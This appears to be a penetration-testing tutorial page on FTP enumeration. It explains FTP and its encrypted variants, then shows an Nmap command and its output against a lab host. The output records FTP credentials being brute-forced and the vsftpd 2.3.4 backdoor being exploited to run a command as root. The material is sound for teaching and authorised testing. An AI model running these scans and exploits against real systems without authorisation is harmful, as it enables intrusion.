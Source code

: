 
## FTP Enumeration

File Transfer Protocol (FTP) is a client-server model communication protocol used to transfer files between devices on a network.
It is a plain-text protocol (which means no encryption), but it does support authentication for clients using a username and password.

In order to add encryption, there are alternatives such as:

- FTPS - An extension to FTP that adds support for TLS (formerly SSL)
- SFTP - SSH File Transfer Protocol - A secure file transfer subsystem for the Secure Shell (SSH) protocol
- FTP over SSH - The practice of using standard FTP over an SSH tunnel


### Scanning FTP with Nmap

By default, FTP runs on port 21, and sometimes SFTP or FTPS can be found on port 2121.
We can use Nmap to detect what FTP servers (if any) are running on these ports:

```
$ sudo nmap -sV -p 21,2121 --script ftp* 192.168.56.106

[... omitted for brevity ...]

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-brute: 
|   Accounts: 
|     user:user - Valid credentials
|_  Statistics: Performed 661 guesses in 183 seconds, average tps: 2.8
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  BID:48539  CVE:CVE-2011-2523
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
|       https://www.securityfocus.com/bid/48539
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|_      http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.56.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
2121/tcp open  ftp     ProFTPD 1.3.1

[... omitted for brevity ...]
```
